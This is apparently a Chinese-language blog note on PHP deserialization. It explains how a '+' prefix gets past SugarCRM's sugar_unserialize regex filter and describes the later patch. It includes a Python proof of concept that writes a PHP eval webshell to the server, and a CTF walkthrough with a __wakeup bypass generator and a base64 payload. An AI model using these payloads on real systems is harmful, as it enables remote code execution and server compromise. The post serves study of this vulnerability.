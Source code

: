 # 原创
：  PHP序列化与反序列化记录

# PHP序列化与反序列化记录

### **(1): preg_match(’/[oc]:\d+:/i’, $value, $matches);**

在include/utils.php类有sugar_unserialize方法

```
function sugar_unserialize($value)
{
    preg_match('/[oc]:\d+:/i', $value, $matches);

    if (count($matches)) {
        return false;
    }

    return unserialize($value);
}

```

可以看对序列化的字符串进行了过滤，其实主要过滤的就是禁止Object类型被反序列化。虽然这样看起是没有问题的，但是由于PHP的一个BUG，导致仍然可以被绕过。只需要在对象长度前添加一个+号，即o:14-&gt;o:+14，这样就可以绕过正则匹配。关于这个BUG的具体分析，可以参见php反序列unserialize的一个小特性。<br/> 最后的PoC就是

```
import requests

url = "http://localhost/sugar/service/v4/rest.php"
data = {
    'method':'login',
    'input_type':'Serialize',
    'rest_data':'O:+14:"SugarCacheFile":4:{S:17:"\\00*\\00_cacheFileName";S:15:"../custom/1.php";S:14:"\\00*\\00_localStore";a:1:{i:0;S:26:"&lt;?php eval($_POST[\'1\']);?&gt;";}S:16:"\\00*\\00_cacheChanged";b:1;}'
}

requests.post(url,data=data)

```

修复<br/> 这个漏洞是知道5.6.24版本才进行修复的，修复的方式也是十分的简单<br/> 在这个版本中，上述的PoC已经不能够使用了。以下是修复代码<br/> 在include/utils.php类有sugar_unserialize方法

```
function sugar_unserialize($value)
{
    preg_match('/[oc]:[^:]*\d+:/i', $value, $matches);

    if (count($matches)) {
        return false;
    }

    return unserialize($value);
}

```

可以看到，正则表达式已经变为/[oc]:[^:]*\d+:/i，那么通过+好来进行绕过的方式已经不适用了，这样就修复了这个漏洞了<br/> [参考链接](https://blog.spoock.com/2016/11/03/php-wakeup/)<br/> 一道例题：[链接](https://adworld.xctf.org.cn/task/answer?type=web&amp;number=3&amp;grade=1&amp;id=5409&amp;page=1)

```
&lt;?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this-&gt;file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this-&gt;file, true); 
    }
    function __wakeup() { 
        if ($this-&gt;file != 'index.php') { 
            //the secret is in the fl4g.php
            $this-&gt;file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?&gt;

```

绕过：

```
&lt;?php
class Demo{
    private $file = 'fl4g.php';
}
$a = serialize(new Demo);
$a = str_replace('O:4', 'O:+4', $a);
$a = str_replace(':1:', ':2:', $a);

echo base64_encode($a);
?&gt;

```

playload：`?var=TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==`
